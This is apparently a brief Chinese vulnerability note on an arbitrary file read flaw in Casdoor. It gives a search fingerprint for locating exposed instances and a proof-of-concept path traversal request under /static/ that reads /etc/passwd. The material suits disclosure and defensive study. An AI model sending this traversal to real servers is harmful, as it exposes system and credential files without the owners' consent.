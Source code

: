 # Casdoor static 任意文件读取漏洞

## 漏洞描述

Casdoor static 存在任意文件读取漏洞，攻击者通过发送特殊的请求包可以获取服务器中的敏感文件

## 漏洞影响

<a-checkbox checked>Casdoor </a-checkbox>

## 网络测绘

<a-checkbox checked>title="Casdoor" </a-checkbox>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1696485665805-41fd85ce-669b-4af6-b2d7-ce41f967d836.png)

验证POC

```plain
/static/../../../../../../../../../../../etc/passwd
```

![img](../../../.vuepress/public/img/1696485691183-fca88e1a-c0dd-44e9-8ade-a51ae4a29615-20231108133631024.png)